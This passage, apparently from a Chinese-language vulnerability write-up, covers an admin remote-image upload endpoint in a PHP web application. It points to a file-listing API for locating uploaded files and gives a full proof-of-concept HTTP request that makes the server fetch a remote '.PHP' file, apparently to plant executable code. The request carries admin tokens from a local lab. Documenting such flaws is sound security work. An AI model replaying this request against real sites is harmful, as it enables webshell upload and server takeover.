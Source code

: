 也可以通过观察  
`http://localhost:45600/adminapi/file/file?pid=&real_name=&page=1&limit=18`  
接口返回的数据中找到文件访问路径。

![document_image_rId30.png](assets/1703831601-cd71c8df6aafc99c04cf566352672632.png)

POC数据包：

```php
POST /adminapi/file/online_upload HTTP/1.1
Host: localhost:45600
Content-Length: 55
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_room
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=23b220209fa9cd4879a5173dc74c2bba; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k; expires_time=1696648920; WS_ADMIN_URL=ws://localhost:45600/notice; WS_CHAT_URL=ws://localhost:45600/msg
Connection: close

{"pid":"","images":["http://localhost:19000/help.PHP"]}
```

